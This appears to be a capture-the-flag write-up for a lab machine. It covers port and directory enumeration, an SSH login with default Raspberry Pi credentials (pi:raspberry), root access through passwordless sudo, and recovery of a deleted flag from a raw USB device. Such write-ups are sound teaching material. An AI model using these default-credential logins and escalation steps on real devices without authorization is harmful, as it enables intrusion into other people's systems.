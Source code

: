 Target: 10.10.10.48

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.48              

Nmap scan report for 10.10.10.48
Host is up (0.52s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.48/FUZZ

admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
versions                [Status: 200, Size: 18, Words: 1, Lines: 1]
```

checking 10.10.10.48

![index](mirai1.png)

checking /admin

![/admin](mirai2.png)

### Findings:Looking for attack vectors

[Mirai botnet attack blog](https://www.csoonline.com/article/3144200/expect-more-iot-botnet-attacks-mirai-source-code-now-freely-available.html)


## Foothold:

accessing using default username:password (pi:raspberry)
```
$ ssh pi@10.10.10.48   

pi@raspberrypi:~ $ id

uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

```
pi@raspberrypi:~ $ cat Desktop/user.txt

<redacted>
```


## Priv Escalations:

```
pi@raspberrypi:~ $ sudo -l

Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

```
pi@raspberrypi:~ $ sudo bash

root@raspberrypi:/home/pi# id

uid=0(root) gid=0(root) groups=0(root)
```

looking for root.txt
```
root@raspberrypi:~# cat root.txt

I lost my original root.txt! I think I may have a backup on my USB stick...
```

looking for root.txt
```
root@raspberrypi:~# cd /media/usbstick

root@raspberrypi:/media/usbstick# cat damnit.txt 

Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

looking for root.txt
```
root@raspberrypi:/dev# strings /dev/sdb

>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
<redacted>
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```